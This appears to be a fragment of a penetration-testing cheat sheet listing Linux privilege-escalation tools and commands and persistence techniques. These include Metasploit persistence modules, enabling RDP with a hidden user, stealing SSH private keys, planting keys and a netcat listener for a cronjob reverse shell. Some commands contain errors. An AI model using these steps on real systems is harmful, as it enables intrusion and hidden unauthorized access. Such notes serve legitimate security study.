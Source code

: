 - PrintSpoofer : look up for manually taking advantage of the SeImpersonatePrivilege

## Linux
- Automated script
	- https://github.com/rebootuser/LinEnum
- Privilege escalation via binaries
	- https://gtfobins.github.io/
- Linux Privilege Escalation Awesome Script
	- https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS
- **LES (Linux Exploit Suggester)**
	- [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
- **Linux Smart Enumeration**
	- [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- **Linux Priv Checker**
	- [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)

Look up kernel version for exploits

Sudo
1. `sudo -l` : list out what sudo allows
2. take advantage with [gtfobin](https://gtfobins.github.io/)

Useful
- `find / -not -type l -perm -o+w` : find files with perm or write for others
	- is not file type - symbolic link
- `openssl passwd -1 abc password` : generate hashed password
- `find / -type f -perm -04000 -ls 2>/dev/null` : will list files that have SUID or SGID bits set.

---

# Persistence
Consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access.

## Windows
- MSF
	- **Service** : requires elevated privilege
		1. Get meterpreter session
		2. `use exploit/windows/local/persistence_service`
		3. need to set same payload and ports for multi/handler listener
		4. `use multi/handler`
	- **RDP**
		1. Get meterpreter session
		2. `run getgui -e -u <user> -p <pass>` : Enable RDP and create a user, hide the user from the login screen
		3. `xfreerdp /u:<user> /p:<pass> /v:<target>`

## Linux
- SSH - steal key
	1. Download the ssh key from the user `~/.ssh/id_rsa`
		1. use `scp` or `sftp`
	2. `chown 0400 id_rsa` : fix permissions
	3. `ssh user@target -i id_rsa` : use the private key to login
- SSH - generate key
	1. `ssh-keygen -t ed25519` : generate key
	2. `ssh-copy-id [-i [identity_file]] [user@]machine` : copy key to target
- Cronjob
1. Set up crontab entry below.
2. run netcat to listen for connection. `nc nvlp 1234`
```bash
```